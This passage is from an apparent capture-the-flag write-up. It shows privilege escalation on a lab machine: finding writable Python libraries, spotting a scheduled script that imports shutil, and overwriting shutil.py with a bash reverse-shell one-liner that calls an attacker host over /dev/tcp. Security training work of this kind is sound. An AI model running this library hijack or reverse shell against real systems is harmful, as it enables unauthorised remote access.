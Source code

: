 ... We've successfully obtained a shell as the user 'death', leaving only one user remaining: Morpheus.

## - Privilege Escalation
### Morpheus Flag

... As part of my standard enumeration process, I typically examine which files or directories the compromised user has write permissions for, a task accomplished using the find command:

```bash
death@dreaming:~$ find / ! -path "/proc/*" ! -path "/sys/*" ! -path "/home/death/*" -type f -writable 2>/dev/null
...
/var/www/html/app/pluck-4.7.13/data/trash/files/shell.phar
/var/www/html/app/pluck-4.7.13/data/trash/files/shell.php.txt
/usr/lib/python3.8/fnmatch.py
/usr/lib/python3.8/shutil.py
/opt/getDreams.py
```

... Interesting discovery. We have write permissions to two Python libraries: shutil and fnmatch. While we haven't identified a method to exploit this yet, let's continue our enumeration efforts.
... I've opted to run pspy64 to monitor live running processes, and one particular process has piqued my interest:

```bash
CMD: UID=1002  PID=5981   | /usr/bin/python3.8 /home/morpheus/restore.py
```

... The user with the UID 1002 (identified as Morpheus) is executing a Python file located at /home/morpheus/restore.py. Let's attempt to read its contents:

```bash
death@dreaming:~$ cat /home/morpheus/restore.py

from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

... Remarkable! The Python script employs the shutil library, and as we're aware, we have write access to this library. Let's inject some malicious Python code into the library. When the script is executed and imports this library, it will trigger the execution of our Python code.
... Let's proceed to overwrite the library with a Python reverse shell:

```bash
death@dreaming:~$ echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

... Following the overwrite, we establish a listener and patiently wait. Eventually, our diligence pays off as we receive a connection:

